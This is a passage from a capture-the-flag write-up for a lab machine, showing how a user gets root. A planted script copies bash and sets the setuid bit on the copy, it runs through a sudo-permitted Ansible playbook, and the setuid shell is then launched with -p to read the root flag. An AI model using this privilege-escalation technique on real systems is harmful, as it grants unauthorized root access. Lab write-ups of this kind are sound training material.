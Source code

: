 ```bash
[theodore@aratus ~]$ cat /tmp/exploit.sh
cp /bin/bash /tmp/bash ; chmod +s /tmp/bash
```
And we now can run with sudo the command!
```bash
[theodore@aratus ~]$ sudo -u automation /opt/scripts/infra_as_code.sh

PLAY [Check status of the firewall] ****************************************************************

TASK [Gathering Facts] *****************************************************************************
ok: [10.10.170.245]

TASK [check firewalld] *****************************************************************************
ok: [10.10.170.245]

[...]

TASK [geerlingguy.apache : Ensure httpd certs are installed (RHEL 8 and later).] *******************
skipping: [10.10.170.245]

TASK [geerlingguy.apache : exploiting you bruh] ****************************************************
changed: [10.10.170.245]

[...]
```
In the previous snippet we ran `exploiting you bruh` succesfully, so let's check the `/tmp/` folder where we should have our new `bash` binary with `root` permissions.
```bash
[theodore@aratus ~]$ ls -la /tmp
total 1892
drwxrwxrwt.  8 root     root        232 Mar 26 20:10 .
dr-xr-xr-x. 17 root     root        224 Mar 25 22:14 ..
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .ICE-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .Test-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .X11-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .XIM-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .font-unix
-rwsr-sr-x.  1 root     root     964536 Mar 26 20:08 bash
-rw-rw-r--.  1 theodore theodore     38 Mar 26 20:09 exploit.sh
drwx------.  3 root     root         17 Mar 26 19:40 systemd-private-cdbd947aa2a64a4aa122319c880cbfa3-httpd.service-7CkbTf
-rw-------.  1 theodore theodore      0 Mar 26 19:57 tmp.Pov2h3UlaW
```
Yess! We have the binary and the owner is `root`! So now we can run `bash` with the permissions of the owner, with the flag `-p`.
```bash
[theodore@aratus tmp]$ ./bash -p
bash-4.2# id; whoami
uid=1001(theodore) gid=1001(theodore) euid=0(root) egid=0(root) groups=0(root),1001(theodore) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
root
bash-4.2# cat /root/root.txt
THM{[REDACTED]}
```

And we rooted the machine!

That's all from my side, hope you find this helpful!